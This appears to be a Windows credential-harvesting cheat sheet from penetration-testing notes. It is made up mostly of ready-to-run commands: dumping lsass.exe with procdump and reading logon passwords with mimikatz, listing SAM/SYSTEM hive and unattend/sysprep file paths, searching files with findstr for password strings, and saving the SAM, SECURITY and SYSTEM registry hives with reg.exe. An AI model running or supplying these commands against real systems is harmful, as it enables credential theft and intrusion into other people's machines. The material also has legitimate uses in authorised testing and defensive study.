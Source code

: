 ## Passwords in memory
Dump the lsass.exe process to a file using Windows built-in Task Manager with right-clicking “lsass.exe” then selecting “Create Dump File” (since Vista) or [Procdump](http://technet.microsoft.com/en-au/sysinternals/dd996900.aspx)(pre Vista) – alternatively, use some [powershell-fu](https://github.com/mattifestation/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1)(see [carnal0wnage](http://carnal0wnage.attackresearch.com/2013/07/mimikatz-minidump-and-mimikatz-via-bat.html)blog post):
```
C:\> procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```
Then dump the credentials offline using mimikatz and its minidump module:
```
C:\> mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
```
## Passwords in files
### SAM Files
```
%SYSTEMROOT%\\repair\\SAM  
%SYSTEMROOT%\\System32\\config\\RegBack\\SAM  
%SYSTEMROOT%\\System32\\config\\SAM  
%SYSTEMROOT%\\repair\\system  
%SYSTEMROOT%\\System32\\config\\SYSTEM  
%SYSTEMROOT%\\System32\\config\\RegBack\\system  
```

### Common files to check
```
c:\\sysprep.inf  
c:\\sysprep\\sysprep.xml  
c:\\unattend.xml  
%WINDIR%\\Panther\\Unattend\\Unattended.xml  
%WINDIR%\\Panther\\Unattended.xml
C:\Windows\system32\sysprep.inf 
C:\Windows\system32\sysprep\sysprep.xml

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s \*pass\*  

dir c:\\*vnc.ini /s /b  
dir c:\\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini  
```
### Raw text search
```
findstr /si password *.xml *.ini *.txt
findstr /si pass/pwd *.ini  

dir /s \*pass\* == \*cred\* == \*vnc\* == *.config*  
findstr /spin "password" *.*  
findstr /spin "password" *.*  
```
## Passwords in Registry
### SAM 
#### Windows VM
```
C:\> reg.exe save hklm\sam c:\temp\sam.save
C:\> reg.exe save hklm\security c:\temp\security.save
C:\> reg.exe save hklm\system c:\temp\system.save
```